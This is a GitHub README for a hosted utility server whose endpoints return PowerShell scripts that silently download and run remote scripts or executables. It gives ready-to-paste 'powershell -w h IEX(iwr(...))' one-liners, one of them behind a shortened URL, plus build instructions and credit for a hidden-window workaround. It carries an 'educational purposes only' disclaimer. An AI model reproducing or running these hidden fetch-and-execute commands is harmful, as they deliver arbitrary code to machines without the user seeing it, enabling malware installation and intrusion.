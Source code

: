 This is a server which runs utils for various project

> **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

# Endpoints

## [/pshid](https://vercelutilsserver.gymthun.com/exehid)

returns a powershell script, downloads and executes a powershell script without a window


example: [`/pshid?url=is.gd/tuioh`](https://vercelutilsserver.gymthun.com/pshid?url=is.gd%2Ftuioh)

which can be executed with 
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/pshid?url=is.gd%2Ftuioh'))"
```

## [/exehid](https://vercelutilsserver.gymthun.com/exe2ps1)

downloads and runs an executable via pshid


example: [`/exehid?url=https://www.python.org/ftp/python/3.12.4/python-3.12.4.exe`](https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```

## [/exe2ps1](https://vercelutilsserver.gymthun.com/exe2ps1)

<details>
<summary>Details</summary>

returns a powershell script, which downloads and runs an executable from `param:url` with all `param:arg` passed


example: [`/exe2ps1?url=https://www.python.org/ftp/python/3.12.4/python-3.12.4.exe`](https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```
</details>

# Building
assumes having NodeJS and git-cli installed

### clone this repo
```shell
git clone https://github.com/kaliiiiiiiiii/vercel_utils_server
cd vercel_utils_server
```

### install packages
```shell
npm install
```

### run development server
```shell
npm run dev
```


# Acknowledgments
Inspiration, code snippets, etc.

- [`WindowStyle -Hidden` not being respected workaround](https://github.com/microsoft/terminal/issues/12464#issuecomment-1499119834)
